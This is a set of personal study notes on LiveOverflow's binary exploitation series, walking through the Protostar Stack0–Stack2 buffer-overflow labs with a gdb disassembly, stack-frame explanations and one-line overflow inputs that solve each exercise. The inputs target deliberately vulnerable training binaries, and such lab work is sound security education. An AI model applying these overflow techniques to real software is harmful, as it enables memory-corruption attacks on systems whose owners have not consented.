 # LiveOverflow Binary Exploitation / Memory Corruption

### 0x09 - 0x0A

Mostly skipped as it deals with a lot of theory behind the linux kernel

### 0x0B - Smashing the stack for fun and profit

This section makes use of exploit.education's tutorials to teach concepts and commands revolving around binary exploitation, starting with protostar.

### 0x0C - Buffer Overflow

Protostar Stack0 Exercise: Accessing memory regions outside allocated region. Objective: change the `volatile int modified` variable.

Disassmebled Program:

```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:	push   ebp
0x080483f5 <main+1>:	mov    ebp,esp
0x080483f7 <main+3>:	and    esp,0xfffffff0
0x080483fa <main+6>:	sub    esp,0x60
0x080483fd <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:	lea    eax,[esp+0x1c]
0x08048409 <main+21>:	mov    DWORD PTR [esp],eax
0x0804840c <main+24>:	call   0x804830c <gets@plt>
0x08048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:	test   eax,eax
0x08048417 <main+35>:	je     0x8048427 <main+51>
0x08048419 <main+37>:	mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:	call   0x804832c <puts@plt>
0x08048425 <main+49>:	jmp    0x8048433 <main+63>
0x08048427 <main+51>:	mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:	call   0x804832c <puts@plt>
0x08048433 <main+63>:	leave  
0x08048434 <main+64>:	ret  
```
Some explanation for the first few lines of main:

![](./images/ss1.png)

- `CALL 0x80483f4 <main>` basically calls the main function at address 0x080483f4 (updates EIP to point to 0x080483f4) and pushes the NEXT address 0xb7eadc76 to be executed on to the stack as this is the address we want to return to after the main function finishes executing

- Lazy to explain everything but what basically this segment of assembly does is that it sets up the stack frame of the main function starting from after we execute `mov ebp, esp`. ESP will be pointing to the top of this stack frame while EBP will be pointing to the bottom. Anything below the main function's stack frame is the stack frame of the previous function which called main

Things related to the lab:

- `(gdb) define hook-stop` (creates a function which auto-runs at every breakpoint)

- `(gdb) x/[NUMBER]wx VALUE` (examines content of a memory address. If you use a pointer, it will use the memory address that the pointer is pointing to. If add number, will show you the contents of the range of memory addresses [MEMORY_ADDRESS, MEMORY_ADDRESS+1])

- `(gdb) x/[NUMBER]i VALUE` (similar to x/wx but instead of counting how many words to print after the memory location, it counts the number instructions).

- Realise that we are storing 0x0 to esp+0x5c. We infer that the modified variable memory address is here as we are setting it to 0. $esp is hence an important register in finding out how many characters we need to overflow the buffer and modify the variable to clear the lab

### Answer for Stack Zero:

`python -c "print('A'*65)" | ./stack0`

- Must be more than 64

- How do we this? We look at $esp+0x5c, and we know that $esp is at 0xbffffc00, hence the memory location of the volatile variable starts at 0xbffffc5c. Overflowing the buffer in our stack frame using A, we observe that it only starts at 0xbffffc1c. 0xbffffc5c - 0xbffffc1c = 64 in decimal.

- You can also set a breakpoint before `test   eax,eax` and modify $rax=0x1111111 such that it will fail the next `je     0x8048427 <main+51>` conditional and proceed to print the "You have change the modified variable" text but since this is a buffer overflow lab, we will do it the way we are supposed to.

### Answer for Stack One:

`./stack1 "$(echo "$(python -c "print('A'*64+'dcba')")")"`

- 0x61626364 -> abcd

- reverse the order due to little endian format

### Answer for Stack Two:

`GREENIE=$(python -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")') /opt/protostar/bin/stack2`

- Idea similar to Stack One

### References

https://exploit.education/

https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/